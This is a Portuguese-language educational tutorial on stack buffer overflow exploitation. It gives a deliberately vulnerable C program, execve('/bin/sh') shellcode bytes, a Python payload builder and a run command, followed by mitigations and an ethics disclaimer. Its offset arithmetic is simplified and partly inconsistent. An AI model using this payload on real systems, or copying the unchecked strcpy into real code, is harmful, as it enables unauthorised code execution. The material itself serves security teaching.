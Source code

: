 ```markdown
# Exemplo de Exploração de Vulnerabilidade com Shellcode

A exploração de vulnerabilidades de corrupção de memória, especialmente em linguagens como C e C++, é um dos temas centrais na segurança de software. Entre as técnicas mais conhecidas está a injeção e execução de **shellcode** — pequenos trechos de código malicioso inseridos na memória do processo vulnerável, geralmente com o objetivo de obter controle do sistema.

Neste tópico, apresentaremos um exemplo prático de exploração de uma vulnerabilidade de **buffer overflow** em C, demonstrando como um atacante pode injetar e executar um shellcode.

---

## 1. O que é Shellcode?

Shellcode é um código binário, geralmente escrito em linguagem de máquina, projetado para ser injetado e executado em um processo alvo. O nome deriva do objetivo original: abrir uma shell (terminal) para o atacante, mas pode realizar qualquer ação, como baixar arquivos, criar usuários ou escalar privilégios.

---

## 2. Exemplo de Código Vulnerável em C

Considere o seguinte programa C vulnerável a buffer overflow:

```c
#include <stdio.h>
#include <string.h>

void vulnerable_function(char *input) {
    char buffer[64];
    strcpy(buffer, input); // Não há verificação de tamanho!
}

int main(int argc, char *argv[]) {
    if (argc != 2) {
        printf("Uso: %s <input>\n", argv[0]);
        return 1;
    }
    vulnerable_function(argv[1]);
    printf("Execução finalizada.\n");
    return 0;
}
```

**Problema:** A função `strcpy` copia o conteúdo de `input` para `buffer` sem verificar o tamanho, permitindo que um input maior que 64 bytes sobrescreva a memória adjacente, incluindo o endereço de retorno da função.

---

## 3. Preparando o Shellcode

Um shellcode clássico para sistemas Linux x86 que executa `/bin/sh` pode ser:

```assembly
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```

Este shellcode, quando executado, abre um shell interativo.

---

## 4. Construindo o Exploit

O objetivo é sobrescrever o endereço de retorno da função `vulnerable_function` para apontar para o início do buffer, onde o shellcode foi injetado.

### Passos:

1. **Preencher o buffer:** Envie 64 bytes (tamanho do buffer) com NOPs (`\x90`), conhecidos como *NOP sled*, para aumentar a chance de execução do shellcode.
2. **Inserir o shellcode:** Logo após o NOP sled, insira o shellcode.
3. **Sobrescrever o endereço de retorno:** Após os 64 bytes do buffer, sobrescreva os próximos 4 bytes (em sistemas 32 bits) com o endereço do início do buffer.

### Exemplo de Payload em Python:

```python
import sys

# Endereço do buffer (exemplo, pode variar conforme o sistema e compilador)
buffer_address = 0xbffffc30

# Shellcode para /bin/sh
shellcode = (
    b"\x31\xc0\x50\x68\x2f\x2f\x73\x68"
    b"\x68\x2f\x62\x69\x6e\x89\xe3\x50"
    b"\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
)

# NOP sled
nop_sled = b"\x90" * (64 - len(shellcode))

# Endereço de retorno sobrescrito (little endian)
ret = buffer_address.to_bytes(4, byteorder='little')

payload = nop_sled + shellcode + ret

# Salvar em arquivo ou passar como argumento
with open("payload", "wb") as f:
    f.write(payload)
```

---

## 5. Execução do Exploit

No terminal, execute o programa vulnerável passando o payload como argumento:

```bash
./vulneravel "$(cat payload)"
```

Se o endereço estiver correto e as proteções do sistema permitirem, o shellcode será executado, abrindo uma shell com os privilégios do processo.

---

## 6. Considerações de Segurança

- **Proteções modernas:** Sistemas atuais implementam proteções como ASLR (Address Space Layout Randomization), DEP/NX (Data Execution Prevention), Stack Canaries, entre outras, que dificultam ou impedem a execução desse tipo de exploit.
- **Importância da validação:** Sempre valide o tamanho dos dados de entrada e utilize funções seguras como `strncpy` ou `snprintf`.
- **Ambiente controlado:** Nunca execute exploits em sistemas de produção ou sem autorização.

---

## 7. Conclusão

Este exemplo ilustra como uma simples falha de programação pode ser explorada para executar código arbitrário, destacando a importância de práticas seguras de desenvolvimento. O entendimento dessas técnicas é fundamental tanto para profissionais de segurança ofensiva quanto defensiva, permitindo identificar, mitigar e prevenir vulnerabilidades críticas em softwares.

---

> **Atenção:** Este conteúdo é apenas para fins educacionais e deve ser utilizado de forma ética e responsável.
```
